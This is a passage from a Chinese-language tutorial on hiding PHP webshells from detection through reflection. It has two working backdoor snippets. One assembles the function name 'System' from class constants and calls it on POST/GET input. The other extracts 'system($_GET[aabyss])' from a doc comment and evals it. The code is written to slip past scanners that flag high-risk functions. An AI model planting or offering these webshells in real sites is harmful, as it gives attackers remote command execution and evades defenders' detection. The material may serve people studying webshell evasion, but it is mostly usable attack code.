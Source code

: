### 10.2 读取已定义函数

获取某个类的全部已定义的常量，不管可见性如何定义

```plain
public ReflectionClass::getConstants(void) : array
```

例子如下：

```plain
class Test
{
    const a = 'Sy';
    const b = 'st';
    const c = 'em';

    public function __construct(){
    }
}

$para1;
$para2;
$reflector = new ReflectionClass('Test');

for ($i=97; $i <= 99; $i++) {
    $para1 = $reflector->getConstant(chr($i));
    $para2.=$para1;
}

foreach (array('_POST','_GET') as $_request) {
    foreach ($$_request as $_key=>$_value) {
        $$_key=  $_value;
    }
}

$para2($_value);
```

## 11# 读取字符串绕过

重点还是放在高危函数上，通过读取各种东西来获得对应字符串

### 11.1 读取注释

这里用到读取注释的函数

```plain
ReflectionClass::getDocComment
```

例子如下：

```plain
/**   
    * system($_GET[aabyss]);
    */  
class User { }  
$user = new ReflectionClass('User');
$comment = $user->getDocComment();
$f = substr($comment , 14 , 22);
eval($f);
```
